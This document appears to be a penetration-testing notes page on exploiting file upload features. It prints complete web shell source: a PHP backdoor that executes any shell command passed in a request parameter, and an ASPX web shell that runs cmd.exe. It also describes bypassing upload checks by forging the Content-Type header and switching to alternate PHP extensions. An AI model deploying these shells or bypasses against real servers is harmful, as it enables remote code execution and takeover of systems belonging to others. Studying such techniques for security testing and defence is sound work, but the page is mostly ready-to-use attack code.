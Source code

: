 # File Upload

Web applications sometimes let users upload file files to their site in the form of a profile picture, PDF upload functionality, etc.&#x20;

* If done improperly attackers can upload malicious files potentially gaining RCE.
* If an application does not have any restrictions to which file type can be uploaded, an attacker could upload a PHP script and if it's in the web directory we can navigate to it and it will execute.

### <mark style="color:yellow;">Simple cmd backdoor</mark>

PHP

```php
<?php 
if(isset($_REQUEST['cmd'])){ 
echo "<pre>"; 
$cmd = ($_REQUEST['cmd']); 
system($cmd); 
echo "</pre>"; 
die; 
}
?>

```

ASPX

```csharp
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">

void Page_Load(object sender, EventArgs e){}string 
ExcuteCmd(string arg){
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}

void cmdExe_Click(object sender, System.EventArgs e){
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtAr g.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
    <title>awen asp.net webshell</title>
</HEAD>
<body>
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; 
POSITION: absolute; TOP: 20px" 
runat="server" 
Width="250px">
</asp:TextBox>
<asp:Butt on id="testing" style="Z-INDEX: 102; 
LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" 
OnClick="cmdExe_Click">
</asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 
103; LEFT: 310px; POSITION: absolute; TOP: 22px" 
runat="server">Command:
</asp:Label>
</form>
</body>
</HTML>
```

#### EX: Vulnerable upload function leads to upload of PHP web shell successfully:

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Once uploaded, navigate to the backdoor and execute any shell command (whoami):

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Successfully uploaded gaining RCE.

### <mark style="color:yellow;">Content Type Bypass</mark>

The server validates the content of the file by checking the **MIME type** of the file, which can be found in the HTTP request.

If the server trusts the content-type in the HTTP request an attacker could change its value to pass the validation.

EX: Content-Type: application/x-php:

* bypass  --> Content-Type: image/jpeg

### <mark style="color:yellow;">File Name Bypass</mark>

When the server checks the file name to see if it is **blacklisted** or **whitelisted**.

* developers use a regex to check the file extension:

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption><p>Regex for balcklisteed extensions</p></figcaption></figure>

Here, bypass the regex validation by changing the extension to “phpt” and “phtml”.
